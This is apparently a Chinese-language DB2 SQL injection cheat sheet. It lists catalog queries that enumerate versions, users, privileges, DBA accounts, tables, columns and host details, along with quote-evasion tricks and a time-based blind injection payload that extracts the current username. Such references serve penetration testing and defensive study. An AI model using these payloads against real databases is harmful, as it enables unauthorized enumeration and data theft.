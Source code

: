 ## 查询语句

版本信息
```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

注释
 ```sql
 select blah from foo --
 ```

当前用户
 ```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
 ```

列出用户
 ```sql
select distinct(authid) from sysibmadm.privileges --
select grantee from syscat.dbauth --
select distinct(definer) from syscat.schemata --
select distinct(grantee) from sysibm.systabauth --
 ```

列出权限
 ```sql
select * from syscat.tabauth --
select * from syscat.tabauth where grantee = current user --
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
 ```

列出DBA账户
 ```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
 ```

当前数据库
```sql
select current server from sysibm.sysdummy1
```

列出数据库
```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

列
```sql
select name, tbname, coltype from sysibm.syscolumns
```

表
```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

列名称查找表
```sql
select tbname from sysibm.syscolumns where name='username'
```

选择第N行
```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

选择第N个字符
```sql
select substr('abc',2,1) FROM sysibm.sysdummy1
```

按位与/或/非/异或
```sql
select bitand(1,0) from sysibm.sysdummy1  //返回为0.其它可选bitandnot、bitor、bitxor、bitnot
```

ASCII值
```sql
select chr(65) from sysibm.sysdummy1
```

字符-->ASCII值
```sql
select ascii('A') from sysibm.sysdummy1
```

Cast查询
```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

字符串拼接
```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1
select 'a' || 'b' from sysibm.sysdummy1
```

Case查询
```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```

引号规避
```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```

时间延迟
```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68
```

序列化为XML
```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables
```

主机名/IP和操作系统
```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info
```

数据库文件位置查询
```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'
```

系统配置
```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%'
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg
```

默认系统数据库

> + SYSIBM
> + SYSCAT
> + SYSSTAT
> + SYSPUBLIC
> + SYSIBMADM
> + SYSTOOLs

